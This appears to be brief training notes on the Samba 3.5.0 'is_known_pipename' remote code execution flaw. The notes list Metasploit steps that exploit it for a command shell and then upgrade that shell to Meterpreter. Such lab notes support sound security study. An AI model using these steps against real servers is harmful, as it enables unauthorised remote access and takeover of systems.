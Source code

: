 ### What is the vulnerability
* Samba V3.5.0 is vulnerable to remote code execution vulnerability
* It allows a malicious client to upload a shared library to a writable share, then cause server to load and execute it.
* Shared library = Linux equivalent of DLL

* PRACTICAL
* Same steps with postgresql, msfconsole, workspace,setg rhosts and db_nmap\
* `use exploit/linux/samba/is_known_pipename`
* `check`
* `run` --> Command Shell
* CTRL+z --> y
* `search shell_to_meterpreter`
* set lhost and session
* `run`
